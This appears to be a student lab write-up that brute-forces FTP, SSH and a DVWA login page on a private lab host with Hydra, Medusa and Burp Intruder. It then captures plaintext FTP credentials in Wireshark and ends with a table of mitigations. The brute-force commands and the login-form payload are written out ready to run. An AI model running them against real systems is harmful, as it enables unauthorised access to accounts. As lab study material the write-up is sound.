# Cryptography Project
#Brute Force and Traffic Analysis on Network Protocols

# 🎯 Objective
1. to explore the vulnerabilities of common network protocols 
2. Perform brute force
3. Analyze network 

# Discover Usernames
 **Command : nmap -sV -p-p <target machine>


# Create the users.txt and passwords.txt Files Manually
 **Command : echo -e "msfadmin\nroot\nadmin" > users.txt
echo -e "msfadmin\n1234\ntoor\npassword" > passwords.txt

 # BRUTE FORCE FTP 
   Using Hydra
 ** Command : hydra -L users.txt -P passwords.txt ftp://192.168.109.136
 

  # BRUTE FORCE SSH
   Using Hydra
** hydra -L users.txt -P passwords.txt ssh://192.168.109.136

# BRUTE FORCE 
   Using Medusa
** medusa -h 192.168.109.136 -U users.txt -P passwords.txt -M ssh

 #  SSH into the Target Manually
** ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa msfadmin@192.168.109.136

#  Web App Brute Force (HTTP on Port 80)

Go to : http://192.168.109.136/

** Start with DVWA

** Command :hydra -L users.txt -P passwords.txt 192.168.109.136 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed"

Now try to login


Once inside DVWA:
Go to DVWA Security and set the security level to low (so it's easier to play with)


# Burp Intruder to automate brute force attacks against an HTTP login page.

1. Set Up Browser to Work with Burp
HTTP Proxy: 127.0.0.1
Port: 8080


2. verify this works by browsing to http://burpsuite

** Let's Intercept the login request **
1.	Go to http://192.168.109.136/dvwa/login.php in your browser.
2.	Make sure Intercept is ON in Burp (Proxy tab → Intercept sub-tab).

3.	Enter any username and password, like: test , test


Burp will capture the POST request.

4. Send to Intruder
•	In the Proxy → Intercept tab:
o	Right-click the captured request
o	Choose “Send to Intruder”

•	Go to the Intruder tab → you should now see the request under “Positions”.


5. Change : username=admin&password=§test§&Login=Login


6. Configure the Payload
	Go to the Payloads tab.
	Make sure Payload set is 1, and Payload type is Simple list.
    Click Load → Select your passwords.txt file (e.g., includes msfadmin, 1234, toor, password, etc.)

 
Result :

 

# Sniff Network Traffic (Wireshark)
1. Open wireshark 
    choose eth0 and start scanning
2. Open a terminal on Kali and run your Hydra brute force command: hydra -L users.txt -P passwords.txt ftp://192.168.109.136

o	Hydra will start brute-forcing the credentials using the wordlists 

Check wireshark for result and stop 


Key Observations:
1.	Protocol: FTP (File Transfer Protocol), which is unencrypted by default.
2.	User Credentials in Plain Text:
o	Username: root (seen in USER root)
o	Password: admin (seen in PASS admin)
These appear clearly in the packet details, which is a major security concern.
3.	FTP Login Attempts:
o	Multiple repeated login attempts with USER and PASS commands indicate:
	Possibly a brute-force attempt.
	Or, just several login attempts due to incorrect passwords or testing.



TCP packet with the RST (Reset) flag set is considered a connection reset, which is often a sign of:
•	An error or forced termination.
•	A refused connection.
•	An interruption, either due to policy, timeout, or manual termination



Protocols That Use Encryption (SECURED):
In your current capture, we don’t see any encrypted protocols like HTTPS or FTPS. But here’s what would be encrypted if they appeared:

HTTPS (HTTP Secure)
•	Port: 443
•	Status: Encrypted using TLS
•	Data Visibility: Cannot read content like logins, messages, or website data.
tcp.port == 443


Protocols Transmitting Data in Plaintext (UNSECURED):
✅ FTP (File Transfer Protocol)
•	Ports: 21 (control), 20 (data)
•	Status: Plaintext
•	Evidence: Username (USER root) and password (PASS admin) are clearly visible in the capture.
•	Risk: Anyone intercepting this traffic can steal credentials or sensitive files.

tcp contains "USER "

tcp contains "PASS "

4. Analyze Problems Encountered
Some examples you can document (based on your experience so far):
•	❌ SSH failed due to host key algo mismatch → solved by adding -oHostKeyAlgorithms=+ssh-rsa
•	⚠️ Hydra error: users.txt not found → resolved by placing it in the correct path
•	🔐 Protocol restrictions (like parallel threads in SSH) → used Medusa instead
________________________________________
🛡️ 5. Propose Mitigation Strategies
Here’s what to mention:
Protocol	Vulnerability	Mitigation Strategy
FTP	Plaintext credentials	Use SFTP or FTPS instead
Telnet	No encryption	Use SSH instead
SSH	Brute force susceptible	Use key-based auth, fail2ban, rate-limiting
HTTP	Plaintext login	Use HTTPS, CAPTCHAs, account lockout
